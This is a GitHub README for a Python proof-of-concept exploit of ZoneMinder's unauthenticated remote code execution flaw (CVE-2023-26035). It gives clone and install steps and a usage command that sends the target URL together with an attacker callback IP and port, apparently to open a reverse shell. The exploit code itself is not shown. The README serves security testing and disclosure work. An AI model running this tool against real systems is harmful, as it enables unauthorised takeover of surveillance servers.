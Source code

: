 # Zoneminder Unauthenticated RCE (CVE-2023-26035) POC

This is a script written in Python that allows the exploitation of the **Zoneminder's** security flaw in the described in **CVE 2023-26035**. The system is vulnerable in versions preceding **1.36.33** and **1.37.33.**

## Usage

Clone the repository to your machine and install the dependencies using **pip** (it is recommended to use **virtualenv** to create an environment to separate these installations from global installations)

```bash
git clone https://github.com/m3m0o/zoneminder-snapshots-rce-poc
pip install -r requirements.txt
```

The script needs the **target URL** with the **Zoneminder's** root path (like **http://example.com/zm, http://example.com** or **http://example.com/zoneminder)**, the **IP** or **domain** for the target machine to connect and the **port** for the target machine to connect. Here's an example:

```python
python3 main.py -u http://zoneminder.target:8000 -i 10.10.14.56 -p 443
```

![script-demo](https://iili.io/Ju3w7t9.gif)

## References

[Unauthenticated RCE in snapshots](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-72rg-h4vf-29gr)

[Rapid7 Vulnerability & Exploit Database ZoneMinder Snapshots Command Injection](https://www.rapid7.com/db/modules/exploit/unix/webapp/zoneminder_snapshots/)

